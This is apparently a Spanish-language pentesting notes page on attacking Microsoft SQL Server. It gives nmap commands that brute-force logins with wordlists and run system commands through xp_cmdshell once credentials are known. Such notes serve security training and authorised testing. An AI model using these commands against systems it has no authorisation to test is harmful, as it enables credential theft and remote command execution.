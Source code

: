 # MsSQL

## Fuerza Bruta

### Nmap

Podemos hacer uso de Nmap para hacerle fuerza bruta a este servicio:

```bash
nmap -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

## RCE

Podemos hacer un RCE si tenemos credenciales de acceso y los permisos necesarios. Usaremos un script de nmap para ello:

{% hint style="success" %}
Podemos hacer uso del comando "type" para leer archivos de la maquina
{% endhint %}

```bash
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=usuario,mssql.password=contraseña,ms-sql-xp-cmdshell.cmd="whoami" 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

